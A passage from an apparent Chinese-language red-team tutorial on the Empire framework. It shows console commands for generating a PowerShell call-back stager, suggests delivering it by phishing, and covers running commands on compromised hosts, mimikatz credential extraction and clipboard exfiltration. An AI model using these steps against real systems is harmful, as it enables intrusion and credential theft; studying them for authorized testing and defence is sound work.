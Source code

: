 这将设置一个 HTTP 监听器，允许代理（受感染的系统）与 Empire 服务器进行通信。

## 生成和交付有效载荷

Empire 生成的有效载荷充当受感染系统上的代理。这些代理与 Empire 服务器进行通信。为 Windows 目标生成一个 PowerShell 有效载荷：

```
 # Within the Empire console
usestager windows/launcher_ps
set Listener http_listener
generate
```

这将生成一个 PowerShell 单行有效载荷。你可以通过多种方式将此有效载荷传送到目标系统，例如通过钓鱼或漏洞利用。

## 在受感染的系统上执行命令

一旦有效载荷在目标系统上执行，它就会与 Empire 服务器建立连接。你可以与代理进行交互并执行命令：

```
 # Within the Empire console
interact <agent_ID>
# Execute a command on the agent
shell whoami
```

这展示了在受感染系统上执行一个简单命令（在此案例中，获取当前用户）。

## 用于高级任务的后期利用模块

Empire 包括了大量后期利用模块，用于执行高级操作。我们来使用`mimikatz`模块从被攻陷的系统中提取凭证：

```
 # Within the Empire console
interact <agent_ID>
# Load the mimikatz module
usemodule credentials/mimikatz
# Run mimikatz to extract credentials
execute
```

这个示例展示了如何使用一个专用模块在被攻陷系统上进行凭证提取。

## 数据外泄

Empire 提供模块来从被攻陷系统中提取数据。`powershell/clipboard/paste`模块可以用来提取存储在剪贴板中的数据：

```
 # Within the Empire console
interact <agent_ID>
# Load the clipboard exfiltration module
usemodule powershell/clipboard/paste
# Run the exfiltration module
execute
```
